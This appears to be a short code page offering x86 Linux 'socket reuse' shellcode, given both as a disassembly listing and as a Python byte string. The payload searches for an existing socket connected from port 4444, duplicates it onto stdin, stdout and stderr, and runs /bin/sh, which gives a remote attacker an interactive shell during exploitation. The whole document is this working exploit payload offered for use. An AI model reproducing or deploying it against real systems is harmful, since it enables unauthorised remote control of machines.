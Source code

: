  Reuse Socket Shellcode 
================================================================================

A simple socket reuse for linux system. Three system calls, socket, dup2 and execve


0:  31 db                   xor    ebx,ebx
2:  53                      push   ebx
3:  89 e7                   mov    edi,esp
5:  6a 10                   push   0x10
7:  54                      push   esp
8:  57                      push   edi
9:  53                      push   ebx
a:  89 e1                   mov    ecx,esp
c:  b3 07                   mov    bl,0x7
e:  ff 01                   inc    DWORD PTR [ecx]
10: 6a 66                   push   0x66
12: 58                      pop    eax
13: cd 80                   int    0x80
15: 66 81 7f 02 11 5c       cmp    WORD PTR [edi+0x2],0x5c11
1b: 75 f1                   jne    0xe
1d: 5b                      pop    ebx
1e: 6a 02                   push   0x2
20: 59                      pop    ecx
21: b0 3f                   mov    al,0x3f
23: cd 80                   int    0x80
25: 49                      dec    ecx
26: 79 f9                   jns    0x21
28: 50                      push   eax
29: 68 2f 2f 73 68          push   0x68732f2f
2e: 68 2f 62 69 6e          push   0x6e69622f
33: 89 e3                   mov    ebx,esp
35: 50                      push   eax
36: 53                      push   ebx
37: 89 e1                   mov    ecx,esp
39: 99                      cdq
3a: b0 0b                   mov    al,0xb
3c: cd 80                   int    0x80




shellcode_socket_reuse = (
"\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff"
"\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b"
"\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73"
"\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b"
"\xcd\x80")



